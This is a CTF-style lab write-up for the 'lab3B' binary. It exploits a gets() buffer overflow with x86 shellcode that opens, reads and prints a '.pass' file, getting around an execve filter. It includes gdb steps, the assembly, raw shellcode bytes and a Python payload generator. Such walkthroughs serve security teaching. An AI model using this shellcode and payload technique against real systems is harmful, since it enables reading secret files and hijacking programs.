




# lab3B.c analysis
When we execute the `lab3B` binary we get the option to enter user input. After that the program exits.

# int main()
This time the vulnerable spot in the code is not hidden at all. We´re supposed to enter out payload at the `gets()`. There are no bounds-checks therefore we can overflow the buffer. The only thing interesting thing mentionable is that the code checks whether `syscall 11` is being called. If that´s the case the child is being killed.

# analysing the stack
Our goal will be to do a very basic buffer overflow. So we´re filling the buffer with a padding till we reach the return address and then overwrite the return address with the address that our evil code is being written at and write the evil code we want to execute. To see how `esp` look we want to set a breakpoint after we entered user input.
> gdb lab3B

> disassemble main


> b *0x08048a2a

> run

now we enter something like "a" and hit our breakpoint and see how our `esp` looks like.

> x/90wx $esp

> bt



Now we see that it takes 156 bytes to reach the return address.

# writing our malicious code
As mentioned earlier, we cant do the `syscall 11` which is executing an `exec` command. To get our flag we´re still able to utilize other `syscalls`. The flag is in the `.pass` file. So we could retrieve it by reading from the file.

<h3>open the file</h3>
```
sub    esp,0x100
push   0x0
push   0x73736170
push   0x2e2f4233
push   0x62616c2f
push   0x656d6f68
push   0x2f2f2f2f
mov    eax,0x5
mov    ebx,esp
mov    ecx,0x0
mov    edx,0x0
int    0x80
```
| %eax       | %ebx          | %ecx     | %edx |
|------------|---------------|----------|------|
| syscall nr | ptr file name | int flag | mode |

To make an `open()` syscall, we need to pass multiple arguments. One of them being the name of the file. With the `push` instruction we´re pushing the path to our file to the stack. Since our code is on the stack we want to move the stack pointer before doing that.

<h3>read from file</h3>
```
mov    ebx,eax
mov    eax,0x3
mov    ecx,esp
mov    edx,0x18
int    0x80
```
| %eax       | %ebx                | %ecx              | %edx   |
|------------|---------------------|-------------------|--------|
| syscall nr | ret value from open | buffer to read to | length |
The only thing to be aware of when reading from a file is to fill `ebx` with the return value stored in `eax` before assigning `eax` with the new syscall. Otherwise, the value gets lost.

<h3>write to console</h3>
```
mov    eax,0x4
mov    ebx,0x1
mov    edx,0x18
int    0x80
```
| %eax       | %ebx            | %ecx                 | %edx             |
|------------|-----------------|----------------------|------------------|
| syscall nr | type of writing | buffer to write from | length of buffer |

# writing the payload
Our payload should contain the padding then the new return address and then our assembly code. To get our assembly code in hex we can use a [website](https://defuse.ca/online-x86-assembler.htm#disassembly).
```python
padding = b"\x99" * 156
retAddr = b"\x00\xf7\xff\xbf"
code = b"\x81\xEC\x00\x01\x00\x00\x6A\x00\x68\x70\x61\x73\x73\x68\x33\x42\x2F\x2E\x68\x2F\x6C\x61\x62\x68\x68\x6F\x6D\x65\x68\x2F\x2F\x2F\x2F\xB8\x05\x00\x00\x00\x89\xE3\xB9\x00\x00\x00\x00\xBA\x00\x00\x00\x00\xCD\x80\x89\xC3\xB8\x03\x00\x00\x00\x89\xE1\xBA\x18\x00\x00\x00\xCD\x80\xB8\x04\x00\x00\x00\xBB\x01\x00\x00\x00\xBA\x18\x00\x00\x00\xCD\x80"
payload = padding + retAddr + code
with open("payload","wb") as f:
    f.write(payload)
```
After executing the python script and piping the payload as our input we get our flag!

> python genPayload.py

> gdb

> run lab3B < payload


